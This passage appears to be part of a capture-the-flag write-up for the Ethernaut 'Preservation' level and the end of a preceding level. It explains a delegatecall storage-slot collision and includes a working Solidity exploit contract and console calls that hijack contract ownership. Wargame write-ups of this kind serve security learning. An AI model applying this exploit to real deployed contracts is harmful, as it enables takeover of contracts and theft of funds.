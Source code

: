 We'll deploy the contract and call approve from the console.

```
>> await contract.approve(<exploit contract address>, '1000000000000000000000000')
```

Now use the `exploit` function to transfer the funds.

And that clears the level!

# Preservation
We'll have to dust off our knowledge from the _Delegation_ level to tackle this one.
The vulnerable contract stores `timeZone1Library` in slot0 and the library contract
stores `storedTime` in slot 0. When `setFirstTime` delegates to `LibraryContract` and
we update `storedTime` we're actually updating slot0 in the `Preservation` contract.
We can update it to be the address of the exploit contract. The next step is to call
`setFirstTime` again to delegate to our exploit contract and update the owner.

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "./Preservation.sol";

contract Exploit {
    address public preservation;
    address public slot2;
    address public owner;

    constructor(address _preservation) public {
        preservation = _preservation;
    }

    function exploit() external {
        // After execution slot0 of the preservation contract will point to us
        // So the next time we delegate call it it will come here
        Preservation(preservation).setFirstTime(uint256(address(this)));
    }
    
    function setFirstTime(uint256 _timestamp) external {
         // Delegate called from Preservation.sol, will update the owner of Preservation.sol
        owner = 0x... // your EOA goes here
    } 
}
```

We call `exploit()` and now `timeZone1Library` points to the exploit contract.
Then we can use the console to call the `setFirstTime` and overwrite the owner.

```
>> await contract.setFirstTime('0')
```

And that clears the level!
